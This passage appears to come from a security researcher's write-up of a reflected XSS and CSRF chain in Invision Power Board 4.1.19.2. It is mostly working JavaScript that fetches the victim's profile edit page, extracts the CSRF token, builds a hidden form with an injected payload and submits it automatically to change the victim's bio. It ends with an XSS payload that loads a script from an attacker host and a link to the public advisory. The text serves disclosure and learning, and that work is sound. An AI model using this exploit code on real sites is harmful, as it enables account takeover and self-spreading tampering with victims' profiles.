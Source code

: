 ```javascript
  var profile = check0;
} else if (check2.includes("profile")){
  //user = mod or admin
  var profile = check2;
} else if (check3.includes("profile")){
  //user = mod or admin
  var profile = check3;
} else if (check4.includes("profile")){
  //user = mod or admin
  var profile = check4;
} else if (check5.includes("profile")){
  //user = mod or admin
  var profile = check5;
} else if (check6.includes("profile")){
  //user = mod or admin
  var profile = check6;
}
var final = profile + 'edit/';

// steals the csrf token

var csrf = get(final);
document.body.innerHTML = csrf;
var inp = document.getElementsByTagName('input')[3];
var token = inp.value;

// build form with valid token and evil credentials
document.body.innerHTML
+= '<form id="woot" action=' + final + ' method="POST">'
+ '<input type="hidden" name="form_submitted" value="1">'
+ '<input type="hidden" name="csrfKey" value="' + token + '">'
+ '<input type="hidden" name="MAX_FILE_SIZE" value="2097152">'
+ '<input type="hidden" name="plupload" value="sxcurity">'
+ '<input type="hidden" name="bday[month]" value="0">'
+ '<input type="hidden" name="bday[day]" value="0">'
+ '<input type="hidden" name="bday[year]" value="0">'
+ '<input type="hidden" name="enable_status_updates" value="0">'
+ '<input type="hidden" name="enable_status_updates_checkbox" value="1">'
+ '<input type="hidden" name="core_pfield_1" value="' + payload + '">'
+ '<input type="hidden" name="core_pfield_1_upload" value="sxcurity">'
+ '</form>';

// submits our csrf form!
document.forms["woot"].submit();

function get(url) {
    var xmlHttp = new XMLHttpRequest();
    xmlHttp.open("GET", url, false);
    xmlHttp.send(null);
    return xmlHttp.responseText;
}
```
This javascript steals the victim's CSRF token, builds a CSRF form & submits it, enables the user's status updates in order to change their "About Me" bio to "sxcurity is my hero" (shout out to Samy Kamkar for the inspiration!)<br><br>
Payload:  `controller='};</script><script src=//<attacker>/lol.js></script>;{'`  
<br><br>
Needless to say, I had a ton of fun weaponizing this reflected XSS and abusing the HTML option in the Announcements! It was definitely a great learning experience as well. Read the full advisory <a href="https://packetstormsecurity.com/files/142937/Invision-Power-Board-4.1.19.2-XSS-CSRF-File-Upload-Disclosure.html" style="color:#E22A3C">here</a>.
<br><br>
Thanks for reading,<br><br>